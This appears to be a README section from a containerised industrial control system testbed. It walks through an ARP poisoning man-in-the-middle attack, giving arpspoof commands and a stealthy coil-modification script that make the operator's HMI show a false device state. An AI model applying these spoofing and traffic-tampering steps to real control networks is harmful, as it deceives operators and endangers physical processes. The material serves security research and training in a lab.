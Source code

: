 This section describes the procedure for conducting an ARP poisoning attack to inject false data between the MPLC and M-IED1 without detection by the operator. Notably, all files and tools required to execute this attack are already included within the provided Docker container.

- Use the ARP attacker node:
```bash
docker exec -ti Attacker-Node-ARP bash
```

--- 

The first step involves sending gratuitous ARP messages to the victims to poison their respective ARP tables.

- ARP spoofing targeting M-IED1:
```bash
arpspoof -i eth0 10.0.0.192 -rt 10.0.0.21
```

- ARP spoofing targeting MPLC:
```bash
arpspoof -i eth0 10.0.0.21 -rt 10.0.0.192
```

Then, he attacker can intercept and modify the network traffic to reach their malicious objectives.

```bash
python3 coilModificationStealth.py
```

In this case, from the HMI interface, we can observe that MIED1 appears to be closed. However, by checking the MIED1 status, it is possible to confirm that the displayed MIED1 is open.

- Use the MIED1 container:
```bash
docker exec -ti M-IED1 bash
```
- Check coil status:
```bash
cat status.txt ; echo
```